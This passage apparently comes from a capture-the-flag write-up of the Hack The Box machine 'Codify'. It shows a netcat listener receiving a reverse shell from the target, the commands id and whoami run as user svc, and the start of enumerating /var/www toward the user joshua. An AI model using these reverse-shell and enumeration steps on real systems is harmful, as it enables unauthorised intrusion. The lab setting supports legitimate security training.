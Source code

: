 ![](attachments/codify_4.png)

Although it fails apparently, listener opens a shell.

```shell
┌──(kali㉿kali)-[~/htb/codify]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.239] 51970
sh: 0: can't access tty; job control turned off
$ id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
$ whoami
svc
```

I got a shell as `svc`!



# Shell as `joshua`

### Enumeration

There are 3 web directories found on `/var/www`.

```bash
svc@codify:/var/www$ ls -al
ls -al
total 20
drwxr-xr-x  5 root root 4096 Sep 12  2023 .
drwxr-xr-x 13 root root 4096 Oct 31  2023 ..
drwxr-xr-x  3 svc  svc  4096 Sep 12  2023 contact
drwxr-xr-x  4 svc  svc  4096 Sep 12  2023 editor
drwxr-xr-x  2 svc  svc  4096 Apr 12  2023 html
```
